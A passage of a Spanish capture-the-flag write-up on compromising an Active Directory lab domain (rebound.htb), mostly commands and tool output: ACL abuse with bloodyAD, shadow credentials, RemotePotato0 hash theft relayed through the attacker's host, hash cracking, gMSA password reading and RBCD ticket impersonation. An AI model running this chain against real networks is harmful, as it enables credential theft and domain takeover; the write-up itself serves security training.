SMB         10.129.229.114  445    DC01             [-] rebound.htb\winrm_svc:1GR8t@$$4u STATUS_LOGON_FAILURE
SMB         10.129.229.114  445    DC01             [-] rebound.htb\batch_runner:1GR8t@$$4u STATUS_LOGON_FAILURE
SMB         10.129.229.114  445    DC01             [-] rebound.htb\tbrady:1GR8t@$$4u STATUS_LOGON_FAILURE
```
Vemos que esa credencial la utilizan los usuarios `ldap_monitor` y `oorend`

Ninguno de estos usuarios pertenece al grupo de `Remote Management Users` por lo cual no podemos utilizar herramientas como `evil-winrm` para conseguir una consola interactiva.

## Bloodhound

Tras enumerar el LDAP tampoco encontré nada de valor, por lo cual llegamos a un punto muerto.
Con `python-bloodhound` vamos a recopilar información del dominio para buscar alguna forma para poder conseguir acceso a otros usuarios.

```shell
bloodhound-python -d rebound.htb -c all -u oorend -p '1GR8t@$$4u'
WARNING: Could not find a global catalog server, assuming the primary DC has this role
If this gives errors, either specify a hostname with -gc or disable gc resolution with --disable-autogc
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
ERROR: Could not find a domain controller. Consider specifying a domain and/or DNS server.
```
Necesitamos ajustar la hora con el DC para poder autenticarnos por Kerberos.

```shell
sudo ntpdate rebound.htb
2024-08-22 02:53:13.438706 (+0200) +18001.477703 +/- 0.018651 rebound.htb 10.129.229.114 s1 no-leap
CLOCK: time stepped by 18001.477703
```

```shell
bloodhound-python -d rebound.htb -c all -u oorend -p '1GR8t@$$4u'
WARNING: Could not find a global catalog server, assuming the primary DC has this role
If this gives errors, either specify a hostname with -gc or disable gc resolution with --disable-autogc
INFO: Getting TGT for user
ERROR: Could not find a domain controller. Consider specifying a domain and/or DNS server.
```
Ahora necesitamos especificar el servidor DNS.

```shell
bloodhound-python -d rebound.htb -c all -u oorend -p '1GR8t@$$4u' -ns 10.129.229.114
INFO: Found AD domain: rebound.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.rebound.htb
WARNING: LDAP Authentication is refused because LDAP signing is enabled. Trying to connect over LDAPS instead...
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to GC LDAP server: dc01.rebound.htb
WARNING: LDAP Authentication is refused because LDAP signing is enabled. Trying to connect over LDAPS instead...
INFO: Connecting to LDAP server: dc01.rebound.htb
WARNING: LDAP Authentication is refused because LDAP signing is enabled. Trying to connect over LDAPS instead...
INFO: Found 16 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc01.rebound.htb
INFO: Done in 00M 09S
```

```shell
ls
20240822025401_users.json      20240822025407_containers.json  20240822025407_gpos.json    20240822025407_ous.json
20240822025407_computers.json  20240822025407_domains.json     20240822025407_groups.json  20240822025407_users.json
```
Ahora teniendo nuestros archivos solo hace falta importarlos al `bloodhound`.

Primero iniciamos la base de datos `neo4j` que es la que requiere `bloodhound`.

```shell
sudo neo4j start
Directories in use:
home:         /usr/share/neo4j
config:       /usr/share/neo4j/conf
logs:         /etc/neo4j/logs
plugins:      /usr/share/neo4j/plugins
import:       /usr/share/neo4j/import
data:         /etc/neo4j/data
certificates: /usr/share/neo4j/certificates
licenses:     /usr/share/neo4j/licenses
run:          /var/lib/neo4j/run
Starting Neo4j.
Started neo4j (pid:68431). It is available at http://localhost:7474
There may be a short delay until the server is ready.
```

Ahora en `Upload Data` seleccionamos todos los archivos json.


Y ahora marcamos como owned a los usuarios que tenemos sus credenciales.




# Foothold
Vemos un vector de ataque, como el usuario `oorend` tenemos una propiedad `AddSelf` para el grupo `ServiceMGMT` que a su vez tiene permisos de `GenericAll` a la unidad organizativa `Service Users`.
Dentro de esta UO está el usuario `winrm_svc` que pertenece al grupo `Remote Management Users`, de esta forma podríamos ganar una consola interactiva en el DC.


> `AddSelf`, similar to `AddMember`. While `AddMember` is `WriteProperty` access right on the target's `Member` attribute, `AddSelf` is a `Self` access right on the target's `Member` attribute, allowing the attacker to [add itself to the target group](https://www.thehacker.recipes/a-d/movement/dacl/addmember), instead of adding arbitrary principals.

Podemos con [bloodyAD](https://github.com/CravateRouge/bloodyAD) agregar este usuario al grupo ServiceMGMT. bloodyAD es muy cómodo ya que implementa casi la mayoría de métodos contemplados en BloodHound de una forma mas sencilla.

```shell
python3 bloodyAD.py --host 10.129.229.114 -d rebound.htb -u oorend -p '1GR8t@$$4u' add groupMember SERVICEMGMT oorend
[+] oorend added to SERVICEMGMT
```

Ahora que el usuario `oorend` pertenece ese grupo podemos asignarle `genericall` sobre la unidad organizativa que se resume en darle total control sobre el usuario `WinRM_SVC` que es el que nos interesa.

```shell
python3 bloodyAD.py --host dc01.rebound.htb -d rebound.htb -u oorend -p '1GR8t@$$4u' add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' oorend
[+] oorend has now GenericAll on OU=SERVICE USERS,DC=REBOUND,DC=HTB
```

Ahora vamos a lo obvio, vamos a cambiar la contraseña al usuario `WinRM_SVC`

```shell
bloodyAD --host dc01.rebound.htb -d rebound.htb -u oorend -p '1GR8t@$$4u' set password winrm_svc 'Pointed123@'
[+] Password changed successfully!
```

Ahora podemos comprobar que son credenciales válidas y que podemos utilizar `evil-winrm` para ganar acceso.

```shell
nxc smb dc01.rebound.htb -u 'winrm_svc' -p 'Pointed123@'
SMB         10.129.229.114  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
SMB         10.129.229.114  445    DC01             [+] rebound.htb\winrm_svc:Pointed123@ 
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/rebound/content/bloodyAD]
└──╼ [★]$ nxc winrm dc01.rebound.htb -u 'winrm_svc' -p 'Pointed123@'
WINRM       10.129.229.114  5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:rebound.htb)
WINRM       10.129.229.114  5985   DC01             [+] rebound.htb\winrm_svc:Pointed123@ (Pwn3d!)
```

Y ya podemos acceder al DC a través de WinRM y leer la flag de usuario.
```shell
evil-winrm -i 10.129.229.114 -u winrm_svc -p 'Pointed123@'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> whoami
rebound\winrm_svc
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> cd ..
*Evil-WinRM* PS C:\Users\winrm_svc> dir


    Directory: C:\Users\winrm_svc


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---         4/8/2023   2:10 AM                Desktop
d-r---        8/31/2023  10:50 PM                Documents
d-r---        9/15/2018  12:19 AM                Downloads
d-r---        9/15/2018  12:19 AM                Favorites
d-r---        9/15/2018  12:19 AM                Links
d-r---        9/15/2018  12:19 AM                Music
d-r---        9/15/2018  12:19 AM                Pictures
d-----        9/15/2018  12:19 AM                Saved Games
d-r---        9/15/2018  12:19 AM                Videos


*Evil-WinRM* PS C:\Users\winrm_svc> cd Desktop
dir
*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> dir


    Directory: C:\Users\winrm_svc\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        8/21/2024   5:05 PM             34 user.txt


*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> type user.txt
f179a71c199814...
```

# User Pivoting
Vemos el grupo `Certificate Service DCOM Access` por lo cual hay un ADCS detrás.


Después de solucionar un pequeño error con `certipy` vemos que no hay ninguna plantilla de certificados vulnerable.
```shell
certipy find -dc-ip 10.129.229.114 -ns 10.129.229.114 -u oorend@rebound.htb -p '1GR8t@$$4u' -scheme ldaps -ldap-channel-binding
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Trying to get CA configuration for 'rebound-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'rebound-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'rebound-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'rebound-DC01-CA'
[*] Saved BloodHound data to '20240822035139_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20240822035139_Certipy.txt'
[*] Saved JSON output to '20240822035139_Certipy.json'
```

```shell
cat 20240822035139_Certipy.txt | grep -i Vuln
```

En este punto tuve un par de problemas, así que para asegurar la persistencia lo que vamos a hacer es con `certipy` conseguir el TGT de `winrm_svc` para luego dumpear el hash NT y asegurarnos la persistencia a través del hash NT, sin necesidad de cambiarle la contraseña
```shell
certipy shadow auto -username oorend@rebound.htb -password '1GR8t@$$4u' -k -account winrm_svc -target dc01.rebound.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'winrm_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '4c660b08-419b-e05c-51d9-8a1885a76d43'
[*] Adding Key Credential with device ID '4c660b08-419b-e05c-51d9-8a1885a76d43' to the Key Credentials for 'winrm_svc'
[*] Successfully added Key Credential with device ID '4c660b08-419b-e05c-51d9-8a1885a76d43' to the Key Credentials for 'winrm_svc'
[*] Authenticating as 'winrm_svc' with the certificate
[*] Using principal: winrm_svc@rebound.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'winrm_svc.ccache'
[*] Trying to retrieve NT hash for 'winrm_svc'
[*] Restoring the old Key Credentials for 'winrm_svc'
[*] Successfully restored the old Key Credentials for 'winrm_svc'
[*] NT hash for 'winrm_svc': 4469650fd892e98933b4536d2e86e512
```

```shell
evil-winrm -i dc01.rebound.htb -u 'winrm_svc' -H '4469650fd892e98933b4536d2e86e512'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> whoami
rebound\winrm_svc
```

Ahora que hemos enumerado y no hay plantillas vulnerable, como estoy dentro del sistema, una buena práctica es utilizar SharpHound para conseguir mas información adicional que no hemos podido detectar antes y así encontrar medidas potenciales de escalar privilegios o de migrar nuestro usuario.

Subimos el `SharpHound.exe`
```shell
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> upload SharpHound.exe
                                        
Info: Uploading /home/pointedsec/Desktop/rebound/content/SharpHound.exe to C:\Users\winrm_svc\Documents\SharpHound.exe
                                        
Data: 1402880 bytes of 1402880 bytes copied
                                        
Info: Upload successful!
```

```shell
Evil-WinRM* PS C:\Users\winrm_svc\Documents> .\SharpHound.exe -c All
2024-08-21T19:23:35.6611509-07:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2024-08-21T19:23:35.8330254-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-08-21T19:23:35.8642723-07:00|INFORMATION|Initializing SharpHound at 7:23 PM on 8/21/2024
2024-08-21T19:23:36.0986589-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for rebound.htb : dc01.rebound.htb
2024-08-21T19:23:36.2236545-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-08-21T19:23:36.5205581-07:00|INFORMATION|Beginning LDAP search for rebound.htb
2024-08-21T19:23:36.6767739-07:00|INFORMATION|Producer has finished, closing LDAP channel
2024-08-21T19:23:36.6767739-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2024-08-21T19:24:06.9736506-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 35 MB RAM
2024-08-21T19:24:23.8955185-07:00|INFORMATION|Consumers finished, closing output channel
2024-08-21T19:24:23.9267701-07:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2024-08-21T19:24:24.1611606-07:00|INFORMATION|Status: 104 objects finished (+104 2.212766)/s -- Using 43 MB RAM
2024-08-21T19:24:24.1611606-07:00|INFORMATION|Enumeration finished in 00:00:47.6545702
2024-08-21T19:24:24.2550153-07:00|INFORMATION|Saving cache with stats: 63 ID to type mappings.
 63 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2024-08-21T19:24:24.2705298-07:00|INFORMATION|SharpHound Enumeration Completed at 7:24 PM on 8/21/2024! Happy Graphing!
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> dir


    Directory: C:\Users\winrm_svc\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        8/21/2024   7:24 PM          12178 20240821192423_BloodHound.zip
-a----        8/21/2024   7:24 PM           9440 NjQ0M2M1ZmEtNTkyNy00OWNjLWJmNzAtOWZiMzUxMzM4MmNj.bin
-a----        8/21/2024   7:23 PM        1052160 SharpHound.exe


*Evil-WinRM* PS C:\Users\winrm_svc\Documents>
```

Y nos descargamos el zip para importarlo al Bloodhound.

```shell
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> download 20240821192423_BloodHound.zip
                                        
Info: Downloading C:\Users\winrm_svc\Documents\20240821192423_BloodHound.zip to 20240821192423_BloodHound.zip
                                        
Info: Download successful!
```

Después de un rato me dí cuenta de que el usuario `tbrady` tiene el permiso `GSMApassword` a hacia la cuenta del equipo `Delegator`


Por lo cual podríamos conseguir una credencial válida para esta cuenta de equipo
> 
> Group Managed Service Accounts are a special type of Active Directory object, where the password for that object is mananaged by and automatically changed by Domain Controllers on a set interval (check the MSDS-ManagedPasswordInterval attribute).
> 
> The intended use of a GMSA is to allow certain computer accounts to retrieve the password for the GMSA, then run local services as the GMSA. An attacker with control of an authorized principal may abuse that privilege to impersonate the GMSA.


Por lo cual vamos a marcar a `tbrady` como usuario de valor para intentar encontrar una manera de migrar hacia el.

## Cross Session Relay
Por alguna razón BloodHound no me reportaba ni mi propia sesión, esto puede ser porque la sesión establecida era a través de WinRM.

Tuve que buscar una pista porque no sabía por donde tirar y vi que no es lo mismo ejecutar el comando `qwinsta` (para listar sesiones) durante WinRM ya que es un tipo de sesión de `Network` que durante `NewCredentials` que sería una sesión "normal"

```shell
*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> qwinsta
qwinsta.exe : No session exists for *
    + CategoryInfo          : NotSpecified: (No session exists for *:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
```

Sin embargo utilizando `RunasCs.exe` 
```shell
*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> .\RunasCs.exe x x qwinsta -l 9

 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
>services                                    0  Disc
 console           tbrady                    1  Active
```

El caso, descubrimos una sesión activa de `tbrady`

# RemotePotato
Teniendo una sesión activa, podemos hacer un NTLM Relay para capturar el hash NTLMv2 de este usuario e intentar romperlo de forma Offline.

Buscando un rato me encontré con este post
https://exploit-notes.hdks.org/exploit/windows/privilege-escalation/windows-privesc-with-remotepotato/
Existe una herramienta llamada `RemotePotato` con la cual podemos forzar una autenticación a nivel de red a cualquier usuario que tenga una sesión activa en el equipo.

Primero con `socat` redireccionamos el puerto 135 al puerto 9999 de la máquina víctima

```shell
sudo socat tcp-listen:135,fork,reuseaddr tcp:10.129.15.177:9999 &
```

Y ahora con `RemotePotato0.exe` podemos utilizar el módulo 2 para robar el hash del usuario de la sesión 1, `tbrady`

```shell
*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> .\RemotePotato0.exe -m 2 -s 1 -r 10.10.14.133 -x 10.10.14.133 -p 9999 -s 1
[*] Detected a Windows Server version not compatible with JuicyPotato. RogueOxidResolver must be run remotely. Remember to forward tcp port 135 on 10.10.14.133 to your victim machine on port 9999
[*] Example Network redirector:
	sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:{{ThisMachineIp}}:9999
[*] Starting the RPC server to capture the credentials hash from the user authentication!!
[*] Spawning COM object in the session: 1
[*] Calling StandardGetInstanceFromIStorage with CLSID:{5167B42F-C111-47A1-ACC4-8EABE61B0B54}
[*] RPC relay server listening on port 9997 ...
[*] Starting RogueOxidResolver RPC Server listening on port 9999 ...
[*] IStoragetrigger written: 106 bytes
[*] ResolveOxid2 RPC call
[+] Received the relayed authentication on the RPC relay server on port 9997
[*] Connected to RPC Server 127.0.0.1 on port 9999
[+] User hash stolen!

NTLMv2 Client	: DC01
NTLMv2 Username	: rebound\tbrady
NTLMv2 Hash	: tbrady::rebound:ce98010fbf69f07e:b7810611fc15a1fbf2d8f708eeb51943:0101000000000000200b2e1e41f4da01bf94d8b70ef12c610000000002000e007200650062006f0075006e006400010008004400430030003100040016007200650062006f0075006e0064002e006800740062000300200064006300300031002e007200650062006f0075006e0064002e00680074006200050016007200650062006f0075006e0064002e0068007400620007000800200b2e1e41f4da010600040006000000080030003000000000000000010000000020000010374fe674185187f293e2e14bfd2cb848a0658b4d98566d168ec529990c17890a00100000000000000000000000000000000000090000000000000000000000
```

¡Conseguimos crackear el hash!
```shell
john -w=/usr/share/wordlists/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
543BOMBOMBUNmanda (tbrady)     
1g 0:00:00:04 DONE (2024-08-22 05:15) 0.2066g/s 2518Kp/s 2518Kc/s 2518KC/s 5449977..5435844
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

Este usuario no está en el grupo de `Remote Management Users` pero ya tenemos nuestro vector de ataque claro. 

```shell
nxc winrm 10.129.15.177 -u tbrady -p 543BOMBOMBUNmanda
WINRM       10.129.15.177   5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:rebound.htb)
WINRM       10.129.15.177   5985   DC01             [-] rebound.htb\tbrady:543BOMBOMBUNmanda
```

# Reading GMSA Password
Con [gMSADumper](https://github.com/micahvandeusen/gMSADumper) podemos intentar leer las credenciales de la cuenta del equipo `delegator$`.
```shellpython3 gMSADumper.py -u tbrady -p '543BOMBOMBUNmanda' -d dc01.rebound.htb 
Traceback (most recent call last):
  File "/home/pointedsec/Desktop/rebound/content/gMSADumper/gMSADumper.py", line 133, in <module>
    main()
  File "/home/pointedsec/Desktop/rebound/content/gMSADumper/gMSADumper.py", line 79, in main
    conn = Connection(server, user='{}\\{}'.format(args.domain, args.username), password=args.password, authentication=NTLM, auto_bind=True)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/home/pointedsec/.local/lib/python3.11/site-packages/ldap3/core/connection.py", line 373, in __init__
    self._do_auto_bind()
  File "/home/pointedsec/.local/lib/python3.11/site-packages/ldap3/core/connection.py", line 422, in _do_auto_bind
    raise LDAPBindError(error)
ldap3.core.exceptions.LDAPBindError: automatic bind not successful - strongerAuthRequired
```
Pero no tenemos éxito.

Así que como ya tenía descargado `bloodyAD` podemos utilizarlo para leer estas credenciales
```shell
bloodyAD --host dc01.rebound.htb -d rebound.htb -u tbrady -p 543BOMBOMBUNmanda get object 'delegator$' --attr msDS-ManagedPassword

distinguishedName: CN=delegator,CN=Managed Service Accounts,DC=rebound,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:11511b579e4ef2a33545e72b315590cf
msDS-ManagedPassword.B64ENCODED: GeJdRw5LazL8d2T2TFTYt9DiThL/6l2bS2ZY48RT8cHMT2Lw2O8CeL9Xs2xPQN0rB5ekwtnR1VmvWuWMMhGL7/NeCCby7DUszpBbgth4D047WIJimuW/yJXDExvPe/fv7t9v8z2hVzUNFuEDdbgTV4Oyn60JuS5OalOvgiUKLA+EW+Q434ldhOJvReFQcO4GJkCGDnupwMN0GzJoco6SIFvwxNTyOZpv+aETw4TSH+DhitlW0TchVzylB6Rvr7Js6NuY1BkzTiBcla8Lo+fivDvOkFEUuGzS9ZmULHiq4/e4xIxWeFErRCUwTQ4ER/DupurYTIyopluXy5RkqGYn5g==
```

Obtenemos un hash NT:LM el cual lo podemos comprobar
```shell
nxc smb 10.129.15.177 -u 'delegator$' -H 'aad3b435b51404eeaad3b435b51404ee:11511b579e4ef2a33545e72b315590cf'
SMB         10.129.15.177   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
SMB         10.129.15.177   445    DC01             [+] rebound.htb\delegator$:11511b579e4ef2a33545e72b315590cf 
```

Mas fácilmente lo podríamos haber hecho con `netexec`
```shell
nxc ldap 10.129.15.177 -u 'tbrady' -p '543BOMBOMBUNmanda' -k --gmsa
SMB         10.129.15.177   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
LDAPS       10.129.15.177   636    DC01             [+] rebound.htb\tbrady:543BOMBOMBUNmanda 
LDAPS       10.129.15.177   636    DC01             [*] Getting GMSA Passwords
LDAPS       10.129.15.177   636    DC01             Account: delegator$           NTLM: 11511b579e4ef2a33545e72b315590cf
```

No podemos acceder por WinRM
```shell
nxc winrm 10.129.15.177 -u 'delegator$' -H 'aad3b435b51404eeaad3b435b51404ee:11511b579e4ef2a33545e72b315590cf'
WINRM       10.129.15.177   5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:rebound.htb)
WINRM       10.129.15.177   5985   DC01             [-] rebound.htb\delegator$:11511b579e4ef2a33545e72b315590cf
```

# Privilege Escalation
## Constrained Delegation
Con `findDelegation.py` de la suite de `impacket` podemos detectar delegaciones de Kerberos que tenga la cuenta del equipo `delegator$`

Esto nos puede servir para poder conseguir un ticket para acceder a otro servicio en nombre de un usuario e impersonar al usuario Administrador.

```shell
findDelegation.py 'rebound.htb/delegator$' -k -hashes aad3b435b51404eeaad3b435b51404ee:11511b579e4ef2a33545e72b315590cf -dc-ip 10.129.15.177
Impacket v0.12.0.dev1+20240725.112949.6307900 - Copyright 2023 Fortra

[*] Getting machine hostname
[-] CCache file is not found. Skipping...
[-] CCache file is not found. Skipping...
AccountName  AccountType                          DelegationType  DelegationRightsTo     SPN Exists 
-----------  -----------------------------------  --------------  ---------------------  ----------
delegator$   ms-DS-Group-Managed-Service-Account  Constrained     http/dc01.rebound.htb  No         

```

La herramienta encuentra que esta cuenta tiene delegación restringida hacia el servicio HTTP en `dc01.rebound.htb`. Sin embargo, no se ha registrado un SPN para ese servicio, lo que podría ser un indicio de una configuración incompleta o un punto débil que podría ser explotado.

Podemos probar a solicitar un ticket TGS en nombre del usuario administrador utilizando la cuenta de `delegator$`
```shell
getST.py rebound.htb/delegator$ -hashes aad3b435b51404eeaad3b435b51404ee:11511b579e4ef2a33545e72b315590cf -spn http/dc01.rebound.htb -impersonate Administrator
Impacket v0.12.0.dev1+20240725.112949.6307900 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[-] Kerberos SessionError: KDC_ERR_BADOPTION(KDC cannot accommodate requested option)
[-] Probably SPN is not allowed to delegate by user delegator$ or initial TGT not forwardable
```

Pero vemos que no funciona.

Detectamos que la cuenta de administrador no puede ser delegada, por lo cual existe una restricción de delegación.


Pero podemos saltarnos esta restricción haciendo un ataque de tipo Resource-Based Constrained Delegation (RBCD).

Podemos utilizando `rbcd.py` de la suite de `impacket` agregar a la cuenta de usuario `ldap_monitor` como una cuenta confiable para delegar la cuenta `delegator$`

Primero obtenemos un ticket TGT como `delegator$` 
```shell
getTGT.py -dc-ip dc01.rebound.htb rebound.htb/'delegator$' -hashes 'aad3b435b51404eeaad3b435b51404ee:11511b579e4ef2a33545e72b315590cf'
Impacket v0.12.0.dev1+20240725.112949.6307900 - Copyright 2023 Fortra

[*] Saving ticket in delegator$.ccache
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/rebound/content/bloodyAD]
└──╼ [★]$ export KRB5CCNAME='delegator$.ccache'
```

Podemos comprobar las delegaciones actuales de la cuenta de equipo `delegator$`
```shell
findDelegation.py 'rebound.htb/delegator$' -k -hashes aad3b435b51404eeaad3b435b51404ee:11511b579e4ef2a33545e72b315590cf -dc-ip 10.129.15.177
Impacket v0.12.0.dev1+20240725.112949.6307900 - Copyright 2023 Fortra

[*] Getting machine hostname
AccountName  AccountType                          DelegationType  DelegationRightsTo     SPN Exists 
-----------  -----------------------------------  --------------  ---------------------  ----------
delegator$   ms-DS-Group-Managed-Service-Account  Constrained     http/dc01.rebound.htb  No         
```

Y ahora con `rbcd.py` hacemos la delegación.
```shell
rbcd.py 'rebound.htb/delegator$' -delegate-to 'delegator$' -delegate-from ldap_monitor -use-ldaps -action write -k -no-pass -dc-ip 10.129.15.177
Impacket v0.12.0.dev1+20240725.112949.6307900 - Copyright 2023 Fortra

[-] invalid server address
```
Vaya...
Esto es un problema en las conexiones TLS.

Después de probar un buen buen buen buen rato...

Agregué `dc01` al `/etc/hosts`
```shell
cat /etc/hosts 
# Host addresses
127.0.0.1  localhost librenms.com
127.0.1.1  parrot
::1        localhost ip6-localhost ip6-loopback
ff02::1    ip6-allnodes
ff02::2    ip6-allrouters
# Others
10.129.15.177	dc01 dc01.rebound.htb rebound.htb
```

Y conseguí agregar la delegación
```shell
rbcd.py 'rebound.htb/delegator$' -hashes :43e9069a73081ecfcbe1514e1d4e3bc8 -k -delegate-from ldap_monitor -delegate-to delegator$ -action write -dc-ip dc01 -use-ldaps
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Accounts allowed to act on behalf of other identity:
[*]     ldap_monitor   (S-1-5-21-4078382237-1492182817-2568127209-7681)
[*] ldap_monitor can already impersonate users on delegator$ via S4U2Proxy
[*] Not modifying the delegation rights.
[*] Accounts allowed to act on behalf of other identity:
[*]     ldap_monitor   (S-1-5-21-4078382237-1492182817-2568127209-7681)
```

Podemos comprobar que se ha creado correctamente
```shell
findDelegation.py 'rebound.htb/delegator$' -k -hashes aad3b435b51404eeaad3b435b51404ee:11511b579e4ef2a33545e72b315590cf -dc-ip 10.129.15.177
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Getting machine hostname
AccountName   AccountType                          DelegationType              DelegationRightsTo    
------------  -----------------------------------  --------------------------  ---------------------
ldap_monitor  Person                               Resource-Based Constrained  delegator$            
delegator$    ms-DS-Group-Managed-Service-Account  Constrained                 http/dc01.rebound.htb 
```

Ahora podemos solicitar un Service Ticket impersonando a `DC01` utilizando el SPN mal configurado detectado anteriormente.
```shell
getST.py 'rebound.htb/ldap_monitor:1GR8t@$$4u' -spn browser/dc01.rebound.htb -impersonate DC01$
Impacket v0.12.0.dev1+20240819.165705.f98c9870 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating DC01$
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in DC01$@browser_dc01.rebound.htb@REBOUND.HTB.ccache
```

```shell
describeTicket.py 'DC01$@browser_dc01.rebound.htb@REBOUND.HTB.ccache'
Impacket v0.12.0.dev1+20240819.165705.f98c9870 - Copyright 2023 Fortra

[*] Number of credentials in cache: 1
[*] Parsing credential[0]:
[*] Ticket Session Key            : 22aaa5b40ec839fc187bb688e8fb5fbf
[*] User Name                     : DC01$
[*] User Realm                    : rebound.htb
[*] Service Name                  : browser/dc01.rebound.htb
[*] Service Realm                 : REBOUND.HTB
[*] Start Time                    : 22/08/2024 06:33:47 AM
[*] End Time                      : 22/08/2024 16:33:46 PM
[*] RenewTill                     : 23/08/2024 06:33:46 AM
[*] Flags                         : (0x40a10000) forwardable, renewable, pre_authent, enc_pa_rep
[*] KeyType                       : rc4_hmac
[*] Base64(key)                   : IqqltA7IOfwYe7aI6Ptfvw==
